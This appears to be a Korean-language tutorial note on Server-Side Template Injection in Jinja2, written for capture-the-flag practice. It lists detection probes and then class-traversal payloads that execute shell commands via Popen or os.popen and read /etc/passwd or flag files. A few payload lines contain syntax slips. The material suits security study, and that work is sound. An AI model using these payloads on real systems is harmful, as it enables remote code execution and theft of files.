

## SSTI(Server-Side Template Injection) 취약점이란?
: 웹 어플리케이션에서 동적인 내용을 HTML로 출력할때, 미리 정의한 Template에 동적인 값을 넣어 출력하는 템플릿을 사용하는 경우가 있다.

```
int a;
'''
<html>
<body>
    <h1> {{a}}
</body>
</html>
'''
```

여기서 만약에 Template source에 사용자 입력이 들어간다면 악의적인 입력을 통해 개발자가 의도하지않은 기능을 수행할 수 있게 된다 즉 사용자의 입력데이터가 Template에 직접사용될 위험이 있다는 말이다. 이를 SSTI 취약점이라고 칭한다.

Template의 종류는 다양한데, 보통 jinja2, mako 를 사용하는 것같다.

이 취약점을 테스트 할 때는 다음과 같은 단계로 테스트해 볼수 있다.


1 어떤 템플릿인지 확인하기
`{{7*7}}`
`{{7*'7'}}`
`${7*7}`



2 OS라이브러리에 있는 config 추가
`{{config.from_object('os')}}*`

3 현재 설정되어있는 config 확인
`{{config}}`
`{{config.items()}}`

4 root 클래스에 접근.
`{{''.__class__.__mro__}}`

5 상속받은 클래스 확인
`{{''.__class__.__mro__[1].__subclasses__()}}`

여기서 1은 4에서 나온 클래스 중 2번째 인덱스타입을 선택했기 때문에 1을 적은것. (보통 str이 0번, object가 1인데 1을 자주쓰는것같다..)

6 사용할 클래스 고르기
`{{''.__class__.__mro__[1].__subclasses__()[400:]}}`
몇번째인지 잘 확인한다.. 이거는 400번 클래스 부터 나온다는 의미의 명령어인데 이렇게 클래스를 골라주면 됨. 보통 Popen 클래스를 사용해서 flag 를 확인한다. 시스템 명령어도 가능한듯.


7 클래스 사용 (Payload)
`{{''.__class__.__mro__[1]__subclasses__()[408]('ls',shell=True,stdout=-1).communicate()}}`
`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}`
`{{''.__class__.mro()[0].__subclasses__()[408]('cat ./flag',shell=True,stdout=-1).communicate()[0].strip()}}`
`{{url_for.globals.os.popen(“cat%20flag.txt”).read()}}`


[참고]
- SSTI 취약점 설명
https://watchout31337.tistory.com/m/177?category=904110
- payload 모음집 github:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
- Dremhack 서버사이드 강의